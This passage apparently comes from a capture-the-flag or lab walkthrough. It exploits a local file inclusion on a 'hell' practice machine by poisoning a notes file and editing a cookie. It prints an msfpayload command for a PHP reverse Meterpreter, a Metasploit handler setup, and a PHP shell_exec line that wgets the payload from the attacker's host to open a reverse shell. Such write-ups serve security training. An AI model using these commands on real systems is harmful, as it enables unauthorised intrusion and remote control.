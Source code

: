 [![](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_010.png)](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_010.png)

It looks like the page parses any code (HTML etc) in the included file, therefore we can poison the note.txt file with PHP via the Notes feature, and include it to execute the code.  First, a PHP based reverse staged Meterpreter is created and hosted on an HTTP server.


``` bash
root@pwk:~# msfpayload php/meterpreter/reverse_tcp LHOST=192.168.0.110 LPORT=443 R > sneaky.txt
```


As we are using a staged payload, a handler is required, therefore one is set up via Metasploit


``` bash
msf > use multi/handler
msf exploit(handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf exploit(handler) > set lport 443
lport => 443
msf exploit(handler) > set lhost 192.168.0.110
lhost => 192.168.0.110
msf exploit(handler) > run

[*] Started reverse handler on 192.168.0.110:443
[*] Starting the payload handler...
```


Once the failed login cookie is cleared to allow us to get to features again, the following is added to the note.txt file via the Notes feature, which will download our payload from our HTTP server to the /tmp folder on the host


``` bash
<?php echo shell_exec('wget http://192.168.0.110/sneaky.txt -O /tmp/sneaky.txt 2>&1');?>
```


[![hell_011](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_011.png)](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_011.png)

Three failed logins are once again performed via the Personal feature to create the cookie, which is modified to include /tmp/note.txt (which includes our download PHP command)

[![hell_012](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_012.png)](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_012.png)

When the main panel page is reloaded, our poisoned note.txt file is included, the PHP is parsed and our payload file is downloaded.

[![hell_013](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_013.png)](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_013.png)

We're onto something here !  The cookie is edited once again to include /tmp/sneaky.txt and the panel page reloaded to execute stage 1 of our Meterpreter payload, which makes a connection to our waiting handler.

[![hell_014](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_014.png)](http://fourfourfourfour.co/wp-content/uploads/2014/07/hell_014.png)
